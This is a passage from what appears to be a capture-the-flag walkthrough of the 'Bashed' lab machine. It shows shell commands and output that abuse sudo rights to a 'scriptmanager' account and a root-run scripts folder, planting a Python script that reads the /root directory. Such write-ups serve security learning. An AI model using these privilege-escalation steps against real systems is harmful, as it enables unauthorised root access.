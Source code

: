 ```
drwx------ 3 root root 4096 Dec 4 13:03 root
drwxr-xr-x 18 root root 500 Mar 16 19:20 run
drwxr-xr-x 2 root root 4096 Dec 4 11:18 sbin
drwxrwxr-- 2 scriptmanager scriptmanager 4096 Dec 4 18:06 scripts
drwxr-xr-x 2 root root 4096 Feb 15 2017 srv
dr-xr-xr-x 13 root root 0 Mar 16 19:29 sys
drwxrwxrwt 10 root root 4096 Mar 16 19:35 tmp
drwxr-xr-x 10 root root 4096 Dec 4 11:13 usr
drwxr-xr-x 12 root root 4096 Dec 4 11:20 var
lrwxrwxrwx 1 root root 29 Dec 4 11:14 vmlinuz -> boot/vmlinuz-4.4.0-62-generic
```

Using the sudo abilities, we can take a look at what's in the scripts folder.

```
ww-data@bashed:/# sudo -u scriptmanager ls -al /scripts
total 16
drwxrwxr-- 2 scriptmanager scriptmanager 4096 Dec 4 18:06 .
drwxr-xr-x 23 root root 4096 Dec 4 13:02 ..
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec 4 17:03 test.py
-rw-r--r-- 1 root root 12 Mar 16 20:00 test.txt
www-data@bashed:/# sudo -u scriptmanager cat /scripts/test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

From first sight, this may seem like nothing useful but note the permission of the test.txt file. It's actually owned by root. It appears that although scriptmanager created the python script, it was actually ran by root.

If this is so, we can try to write a python script that reads the contents of the /root/ directory to see what's there.

```
www-data@bashed:/# cd /tmp
www-data@bashed:/tmp# ls
VMwareDnD
nix_priv_enum.sh
systemd-private-0dec667e2fac48fb989ef55d5f856a2d-systemd-timesyncd.service-Fnb5Py
test.py
test.txt
vmware-root
www-data@bashed:/tmp# echo "import subprocess; proc = subprocess.Popen(['ls', '-al', '/root'], stdout=subprocess.PIPE); output = proc.communicate()[0]; f = open('test.txt', 'w'); f.write(output); f.close" > testscript.py
www-data@bashed:/tmp# sudo -u scriptmanager cp testscript.py /scripts/testscript.py
www-data@bashed:/tmp# sudo -u scriptmanager cat /scripts/test.txt
total 32
drwx------ 3 root root 4096 Dec 4 13:03 .
drwxr-xr-x 23 root root 4096 Dec 4 13:02 ..
-rw------- 1 root root 1 Dec 23 20:22 .bash_history
-rw-r--r-- 1 root root 3121 Dec 4 17:12 .bashrc
drwxr-xr-x 2 root root 4096 Dec 4 16:33 .nano
-rw-r--r-- 1 root root 148 Aug 17 2015 .profile
-r-------- 1 root root 33 Dec 4 12:48 root.txt
-rw-r--r-- 1 root root 66 Dec 4 13:03 .selected_editor
```
